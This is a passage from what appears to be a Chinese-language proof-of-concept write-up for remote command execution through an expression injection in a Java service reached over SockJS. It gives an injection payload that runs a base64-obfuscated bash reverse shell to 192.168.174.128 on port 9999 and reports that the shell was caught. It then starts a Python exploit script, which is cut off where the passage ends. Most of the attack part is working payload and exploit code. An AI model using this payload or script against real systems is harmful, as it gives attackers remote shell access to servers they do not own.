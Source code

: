 命令执行成功，文件 `awesome_poc` 被成功创建：

![image-20220301151446972](images/202203011514030.png)

尝试反弹 shell，构造命令：

```
T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}'
```

监听 9999 端口，成功接收反弹 shell：

![image-20220301151607291](images/202203011516380.png)

## 漏洞 POC

```python
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

```